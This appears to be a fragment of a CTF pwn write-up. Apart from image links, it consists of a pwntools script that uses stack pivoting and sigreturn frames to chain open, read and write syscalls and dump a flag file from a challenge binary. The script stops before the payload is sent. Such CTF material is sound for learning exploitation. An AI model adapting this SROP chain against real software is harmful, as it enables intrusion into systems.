 [![](assets/1703485159-d0f687fe7a88885c09a31433acb60d0a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224171047-53239c3c-a23c-1.png)

[![](assets/1703485159-181709b700d8fc3f917d5a38826b50e2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231224171052-564638de-a23c-1.png)

完整 exp：

```bash
from pwn import*
io = process('./chall2')
#io = remote('47.108.206.43',37272)
context.log_level='debug'
context(os='linux', arch='amd64')
elf = ELF('./chall2')
syscall2=0x40118A
syscall=0x401060
rax_15 = 0x401193
main = 0x40136e
io.sendafter('easyhack\n','0')

io.sendafter('SUID?\n',b'\x00'*(0x2a)+p64(0x404050+0x30)+p64(0x401417))
io.send(b'\x00'*(0x2a)+p64(0x404050+0x30+0x2a)+p64(0x401417))

io.send(p64(0x404050+0x30+0x2a+0x10)+p64(0x40136e))


payload = b'./flag\x00\x00'.ljust(0x30, b'\x00')
frame = SigreturnFrame()
frame.rdi = constants.SYS_open
frame.rsi = 0x404060
frame.rdx = 0
frame.rcx = 0
frame.rip = syscall
frame.rsp = 0x404198
payload += p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_read
frame.rsi = 3
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x4042a0
payload+=p64(rax_15)+p64(syscall2)+bytes(frame)

frame = SigreturnFrame()
frame.rdi = constants.SYS_write
frame.rsi = 1
frame.rdx = elf.bss()+0x500
frame.rcx = 0x50
frame.rip = syscall
frame.rsp = 0x404088
```